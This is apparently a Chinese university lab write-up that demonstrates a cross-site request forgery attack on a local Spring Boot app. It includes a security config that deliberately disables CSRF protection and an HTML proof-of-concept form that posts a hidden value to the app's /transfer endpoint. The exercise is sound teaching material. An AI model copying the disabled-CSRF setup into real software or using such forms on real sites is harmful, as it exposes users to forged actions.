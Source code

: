 ```yaml
---
title: 2022-05-04-数据库实验5-跨站请求伪造攻击实验
layout: post
tags: 
- 数据库安全-实验
---
```



# 数据库实验5-跨站请求伪造攻击实验

## 前言

该方式已经尽全力来简化操作流程。

## 创建项目

新建一个Spring Boot项目：

![image-20220504174047971](../../src/assets/img/image-20220504174047971.png)

![image-20220504174051214](../../src/assets/img/image-20220504174051214.png)

勾选：

![image-20220504174053777](../../src/assets/img/image-20220504174053777.png)

![image-20220504174056983](../../src/assets/img/image-20220504174056983.png)

![image-20220504174100141](../../src/assets/img/image-20220504174100141.png)

创建后如图所示：

![image-20220504174102775](../../src/assets/img/image-20220504174102775.png)

创建config文件夹并配置关闭SpringSecurity的CSRF验证接口：

![image-20220504174105995](../../src/assets/img/image-20220504174105995.png)

代码如下：

```java
package com.example.demo.config;

import org.springframework.context.annotation.Configuration;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.config.annotation.web.configuration.WebSecurityConfigurerAdapter;

@Configuration
public class SecurityConfig extends WebSecurityConfigurerAdapter {
    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http.authorizeRequests().anyRequest().authenticated()
                .and()
                .formLogin()
                .and()
                .csrf()
                .disable();
    }
}
```

之后创建调试接口：

![image-20220505202518506](../../src/assets/img/image-20220505202518506.png)

代码如下：

```java
package com.example.demo.controller;

import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class HelloController {
    @RequestMapping("/transfer")
    public void Success(String name) {
        System.out.println("现在操作的标识符 = " + name);
    }
    @GetMapping("/hello")
    public String hello() {
        return "hello";
    }
}

```

在application.properties内配置好账号密码：

![image-20220504174109076](../../src/assets/img/image-20220504174109076.png)

配置完毕。

## 创建项目2

在**VSCode**内，复制粘贴如下代码：

```html
<!DOCTYPE html>
<html>
    <body>
        <form action="http://127.0.0.1:8080/transfer" method="post">
            <input type="hidden" value="我是你爷爷" name="name">
            <input type="submit" value="点击一下我">
        </form>
        </body>
</html>
```

保存为html，如下：

![image-20220504174113048](../../src/assets/img/image-20220504174113048.png)

## 开始攻击测试

右键 - 在浏览器中打开，如图所示：

![image-20220504174115945](../../src/assets/img/image-20220504174115945.png)

之后在相同浏览器内新建一个标签页，访问：127.0.0.1:8080

由于没有登录，自动跳转到登录页面：

![image-20220504174119310](../../src/assets/img/image-20220504174119310.png)

输入账号密码（在application.properties内配置好的那个），点击Sign in：

![image-20220504174122249](../../src/assets/img/image-20220504174122249.png)

登录成功（没有写对应的页面），我们自己手动访问一下transfer接口：

![image-20220504174125095](../../src/assets/img/image-20220504174125095.png)

![image-20220504174130853](../../src/assets/img/image-20220504174130853.png)

查看后台：

![image-20220504174133440](../../src/assets/img/image-20220504174133440.png)

接下来我们关闭这个页面，回到刚才Vscode的那个页面上：

![image-20220504174136383](../../src/assets/img/image-20220504174136383.png)

点击“点击一下我”

![image-20220504174139356](../../src/assets/img/image-20220504174139356.png)

可以看到，在没有再次登录的情况下，在Vscode(服务器为http://localhost:52330/)的接口调用成功了。）

查看后台：![image-20220504174142006](../../src/assets/img/image-20220504174142006.png)

故攻击成功。

